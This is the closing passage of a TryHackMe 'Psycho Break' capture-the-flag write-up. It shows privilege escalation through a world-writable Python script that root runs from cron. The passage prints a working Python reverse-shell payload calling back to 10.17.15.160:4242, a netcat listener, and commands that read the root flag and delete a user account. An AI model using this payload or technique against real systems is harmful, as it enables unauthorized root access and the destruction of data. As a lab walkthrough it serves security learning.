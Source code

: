 #### 🔐 File Permission Check

Run the following command to verify the file’s permissions:

```bash
ls -l /var/.the_eye_of_ruvik.py
```
<img width="671" height="40" alt="image" src="https://github.com/user-attachments/assets/7f045f9a-7186-4732-84cc-67df74d4ed9e" />
### 🚨 Exploit: Writable Root-Cron Script

Since we have **read and write access** to the file `/var/.the_eye_of_ruvik.py`, and it's executed by root every 2 minutes, we can exploit it by inserting a **Python reverse shell payload**.

### 🐍 Python Reverse Shell Payload

Replace the contents of the file with the following code:

```python
import socket, subprocess, os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.17.15.160", 4242))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
subprocess.call(["/bin/bash", "-i"])
```
### 📞 Open a Netcat Listener
```bash
nc -lvnp 4242
```
### 🏁 Root Access Achieved
After catching the reverse shell, we now have **root access**. Proceed to retrieve the final flag and clean up the system:
### 📂 Access Root Directory & Read Flag
Navigate to the root directory and read the root flag:
```bash
cd /root
cat root.txt
userdel -r ruvik
```
<img width="927" height="435" alt="image" src="https://github.com/user-attachments/assets/56e9a3eb-7a5f-4442-80b4-aca0c5f0b07a" />
✅ With this, we've completed all objectives and cleaned up the system. Challenge successfully pwned!
<img width="1695" height="718" alt="image" src="https://github.com/user-attachments/assets/25a7f405-236e-4e37-aff0-0f45a275cc18" />

## 🧠 Conclusion: TryHackMe - Psycho Break

The **Psycho Break** room was a deeply immersive and multi-layered CTF challenge that tested both fundamental and advanced cybersecurity skills. From initial reconnaissance and enumeration to exploiting web directories, decoding steganographic clues, and leveraging `cron` misconfigurations for privilege escalation — this room had it all.
